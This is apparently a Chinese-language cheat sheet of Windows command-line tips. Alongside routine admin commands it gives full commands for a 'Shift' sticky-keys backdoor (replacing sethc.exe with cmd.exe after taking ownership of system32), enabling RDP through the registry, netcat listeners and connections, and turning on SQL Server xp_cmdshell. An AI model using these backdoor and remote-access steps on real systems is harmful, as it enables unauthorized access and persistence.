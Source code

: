 ### 关闭 端口关联进程
	
    netstat -aon | findstr PORT
    tasklist | findstr PID
    taskkill /f /t /im PNAME

### 查看本地 DNS 缓存

    ipconfig /displaydns

### Window常用系统变量

    %ALLUSERSPROFILE%   列出系统所有用户Profile文件位置
    %APPDATA%   列出系统程序数据默认存放位置
    %CD%    当前目录
    %COMPUTERNAME%   计算机名称
    %HOMEPATH%  列出主用户目录（\Users\Administrator）
    %USERNAME%  用户名
    %OS%    操作系统名称
    %TEMP%   当前用户应用程序的临时目录（C:\Users\ADMINI~1\AppData\Local\Temp）

### 注册表打开 3389 端口

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

### Shift 后门

Windows2008/Win7 需要先执行（把 system32 的所有权限赋予 administrator ）：

    takeown /f c:\windows\system32\*.*   /a /r /d y
    cacls  c:\windows\system32\*.*  /T /E /G administrators:F

安装

    copy c:\windows\system32\sethc.exe c:\windows\system32\sethc.exe.bak
    copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe 
    copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe  

清除

    copy c:\windows\system32\sethc.exe.bak c:\windows\system32\sethc.exe
    del c:\windows\system32\sethc.exe.bak
    del c:\windows\system32\dllcache\sethc.exe  


### NC 命令

    nc 192.168.1.100 5678　　连接.100的5678端口
    nc -vv -lp  22222　　　　监听本地22222端口

### 把两张图片的二进制合成一张图片

copy /b 1.jpg+2.jpg 12.jpg

### CMD下FTP相关操作

    ftp　　启动ftp客户端

    open ftp的ip　　打开ftp站点

    会提示输入用户名 密码

    lcd  本机绝对路径     设置本地文件路径

    get  文件名     下载单个文件

    mget  文件夹名  下载多个文件

    put   本地文件   上传本地文件

### SQLServer2008/2012 开启xp_cmdshell

　　sp_configure 'show advanced options', 1;　　允许配置高级选项
　　RECONFIGURE;
　　sp_configure 'xp_cmdshell', 1;　　启用xp_cmdshell ，值为0表示禁用
　　RECONFIGURE;  

　　--执行想要的xp_cmdshell语句
　　Exec xp_cmdshell 'ipconfig'


### 常用系统命令


    msconfig　　打开系统配置

    mspaint　　打开绘图板

    mstsc　　打开远程桌面

    taskmgr　　任务管理器

    eventver　　事件查看器

    start explorer D:　　打开D盘

    regedit　　打开注册表

    clean mgr　　磁盘清理

    lusrmgr.msc　　查看本地组和用户

    gpedit　　查看组策略

    systeminfo　　显示机器的具体属性和配置信息

    tasklist　　显示当前运行的所有任务和服务


